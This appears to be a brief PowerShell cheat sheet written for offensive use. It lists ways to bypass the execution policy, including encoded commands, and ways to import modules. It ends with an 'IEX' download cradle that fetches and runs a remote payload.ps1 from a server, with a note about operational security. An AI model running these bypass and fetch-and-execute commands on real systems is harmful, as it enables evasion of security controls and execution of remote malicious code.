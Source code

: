 ## Basics:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -c <cmd>  
3. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## Command Execution Variants:  
**IEX**:  (!= **OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  
  
